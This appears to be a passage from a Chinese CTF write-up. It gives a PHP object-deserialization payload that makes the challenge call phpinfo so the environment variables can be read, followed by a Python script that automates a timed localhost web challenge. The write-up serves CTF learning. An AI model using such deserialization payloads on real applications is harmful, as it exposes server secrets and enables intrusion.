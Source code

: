 非预期解：

```PHP
<?php
class class000 {
    private $payl0ad = 1;
    protected $what="phpinfo";
}
echo urlencode(serialize(new class000()));
```

查看环境变量即可

## 勇闯铜人阵

这题没有什么可以多说的，目标就是把题目给的数字翻译成中文。但是由于时间限制 3 秒，我觉得一般人的手速加网速不太好做到手打全部搞定，所以一般需要一个脚本。这里给出我自己的 python 脚本：

```python
import re
from pydash import trim
import requests
from bs4 import BeautifulSoup
url1 = "http://localhost:40763/restart"
url2 = "http://localhost:40763/"

sess = requests.session()
direct_list = ["北方", "东北方", "东方", "东南方", "南方", "西南方", "西方", "西北方"]

def parse_status(html):
    bs = BeautifulSoup(html, "html.parser")
    coin = trim(bs.find('h1', id='status').text)
    # 一枚硬币
    if len(coin) == 1:
        return direct_list[int(coin) - 1]
    # 两枚硬币
    else:
        nums = re.findall(r'\d', coin)
        return direct_list[int(nums[0]) - 1] + '一个，' + direct_list[int(nums[1]) - 1] + '一个'
        
if __name__ == "__main__":
    # restart
    sess.get(url=url1)
    # start
    body = {
        "player": "sxrhhh",
        "direct": "弟子明白",
    }
    r = sess.post(url=url2, data=body)
    # 循环
    for i in range(0, 5):
        payload = parse_status(r.text)
        body = {
            "player": "sxrhhh",
            "direct": payload,
        }
        r = sess.post(url=url2, data=body)
        # 打印结果
        bs = BeautifulSoup(r.text, "html.parser")
        status = trim(bs.find('h1', id='status').text)
        print(status)
```
